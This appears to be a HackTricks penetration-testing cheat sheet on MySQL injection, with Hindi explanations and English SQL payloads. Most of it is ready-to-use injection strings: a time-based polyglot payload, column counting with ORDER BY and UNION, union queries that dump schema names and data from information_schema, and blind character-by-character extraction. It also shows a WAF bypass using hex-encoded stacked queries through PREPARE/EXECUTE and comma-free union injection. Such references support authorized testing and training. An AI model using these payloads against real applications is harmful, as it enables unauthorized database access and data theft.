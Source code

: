 # MySQL injection

{{#include ../../../banners/hacktricks-training.md}}



## टिप्पणियाँ
```sql
-- MYSQL Comment
# MYSQL Comment
/* MYSQL Comment */
/*! MYSQL Special SQL */
/*!32302 10*/ Comment for MySQL version 3.23.02
```
## दिलचस्प फ़ंक्शन

### Mysql की पुष्टि:
```
concat('a','b')
database()
version()
user()
system_user()
@@version
@@datadir
rand()
floor(2.9)
length(1)
count(1)
```
### उपयोगी फ़ंक्शन
```sql
SELECT hex(database())
SELECT conv(hex(database()),16,10) # Hexadecimal -> Decimal
SELECT DECODE(ENCODE('cleartext', 'PWD'), 'PWD')# Encode() & decpde() returns only numbers
SELECT uncompress(compress(database())) #Compress & uncompress() returns only numbers
SELECT replace(database(),"r","R")
SELECT substr(database(),1,1)='r'
SELECT substring(database(),1,1)=0x72
SELECT ascii(substring(database(),1,1))=114
SELECT database()=char(114,101,120,116,101,115,116,101,114)
SELECT group_concat(<COLUMN>) FROM <TABLE>
SELECT group_concat(if(strcmp(table_schema,database()),table_name,null))
SELECT group_concat(CASE(table_schema)When(database())Then(table_name)END)
strcmp(),mid(),,ldap(),rdap(),left(),rigth(),instr(),sleep()
```
## सभी इंजेक्शन
```sql
SELECT * FROM some_table WHERE double_quotes = "IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1))/*'XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR'|"XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR"*/"
```
from [https://labs.detectify.com/2013/05/29/the-ultimate-sql-injection-payload/](https://labs.detectify.com/2013/05/29/the-ultimate-sql-injection-payload/)

## Flow

याद रखें कि **MySQL** के "आधुनिक" संस्करणों में आप "_**information_schema.tables**_" को "_**mysql.innodb_table_stats**_**"** के लिए प्रतिस्थापित कर सकते हैं (यह WAFs को बायपास करने के लिए उपयोगी हो सकता है)।
```sql
SELECT table_name FROM information_schema.tables WHERE table_schema=database();#Get name of the tables
SELECT column_name FROM information_schema.columns WHERE table_name="<TABLE_NAME>"; #Get name of the columns of the table
SELECT <COLUMN1>,<COLUMN2> FROM <TABLE_NAME>; #Get values
SELECT user FROM mysql.user WHERE file_priv='Y'; #Users with file privileges
```
### **केवल 1 मान**

- `group_concat()`
- `Limit X,1`

### **ब्लाइंड एक-एक करके**

- `substr(version(),X,1)='r'` या `substring(version(),X,1)=0x70` या `ascii(substr(version(),X,1))=112`
- `mid(version(),X,1)='5'`

### **ब्लाइंड जोड़ना**

- `LPAD(version(),1...lenght(version()),'1')='asd'...`
- `RPAD(version(),1...lenght(version()),'1')='asd'...`
- `SELECT RIGHT(version(),1...lenght(version()))='asd'...`
- `SELECT LEFT(version(),1...lenght(version()))='asd'...`
- `SELECT INSTR('foobarbar', 'fo...')=1`

## कॉलम की संख्या का पता लगाना

एक साधारण ORDER का उपयोग करके
```
order by 1
order by 2
order by 3
...
order by XXX

UniOn SeLect 1
UniOn SeLect 1,2
UniOn SeLect 1,2,3
...
```
## MySQL यूनियन आधारित
```sql
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,schema_name,0x7c)+fRoM+information_schema.schemata
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,table_name,0x7C)+fRoM+information_schema.tables+wHeRe+table_schema=...
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,column_name,0x7C)+fRoM+information_schema.columns+wHeRe+table_name=...
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,data,0x7C)+fRoM+...
```
## SSRF

**यहाँ विभिन्न विकल्पों के बारे में जानें** [**Mysql injection का दुरुपयोग करके SSRF प्राप्त करने के लिए**](mysql-ssrf.md)**.**

## WAF बायपास ट्रिक्स

### तैयार बयानों के माध्यम से क्वेरी निष्पादित करना

जब स्टैक्ड क्वेरी की अनुमति होती है, तो यह संभव हो सकता है कि WAFs को बायपास किया जा सके, एक वेरिएबल को उस क्वेरी के हेक्स प्रतिनिधित्व को असाइन करके जिसे आप निष्पादित करना चाहते हैं (SET का उपयोग करके), और फिर PREPARE और EXECUTE MySQL बयानों का उपयोग करके अंततः क्वेरी को निष्पादित करें। कुछ ऐसा:
```
0); SET @query = 0x53454c45435420534c454550283129; PREPARE stmt FROM @query; EXECUTE stmt; #
```
अधिक जानकारी के लिए कृपया [इस ब्लॉग पोस्ट](https://karmainsecurity.com/impresscms-from-unauthenticated-sqli-to-rce) को देखें।

### Information_schema विकल्प

याद रखें कि **MySQL** के "आधुनिक" संस्करणों में आप _**information_schema.tables**_ को _**mysql.innodb_table_stats**_ या _**sys.x$schema_flattened_keys**_ या **sys.schema_table_statistics** के लिए प्रतिस्थापित कर सकते हैं।

### MySQLinjection बिना COMMAS के

कोई भी कॉमा का उपयोग किए बिना 2 कॉलम चुनें ([https://security.stackexchange.com/questions/118332/how-make-sql-select-query-without-comma](https://security.stackexchange.com/questions/118332/how-make-sql-select-query-without-comma)):
```
-1' union select * from (select 1)UT1 JOIN (SELECT table_name FROM mysql.innodb_table_stats)UT2 on 1=1#
```
### Retrieving values without the column name

यदि किसी समय आपको तालिका का नाम पता है लेकिन तालिका के अंदर कॉलम के नाम नहीं पता हैं, तो आप यह पता लगाने की कोशिश कर सकते हैं कि कितने कॉलम हैं, कुछ इस तरह निष्पादित करके:
```bash
# When a True is returned, you have found the number of columns
select (select "", "") = (SELECT * from demo limit 1);     # 2columns
select (select "", "", "") < (SELECT * from demo limit 1); # 3columns
```
मान लीजिए कि 2 कॉलम हैं (पहला कॉलम ID है) और दूसरा कॉलम फ्लैग है, आप फ्लैग की सामग्री को अक्षर दर अक्षर ब्रूटफोर्स करने की कोशिश कर सकते हैं:
```bash
# When True, you found the correct char and can start ruteforcing the next position
select (select 1, 'flaf') = (SELECT * from demo limit 1);
```
अधिक जानकारी के लिए [https://medium.com/@terjanq/blind-sql-injection-without-an-in-1e14ba1d4952](https://medium.com/@terjanq/blind-sql-injection-without-an-in-1e14ba1d4952)

### MySQL इतिहास

आप **sys.x$statement_analysis** तालिका को पढ़कर MySQL के अंदर अन्य निष्पादन देख सकते हैं।

### संस्करण विकल्प**s**
```
mysql> select @@innodb_version;
mysql> select @@version;
mysql> select version();
```
## अन्य MYSQL इंजेक्शन गाइड

- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md)

## संदर्भ

- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md)


{{#include ../../../banners/hacktricks-training.md}}

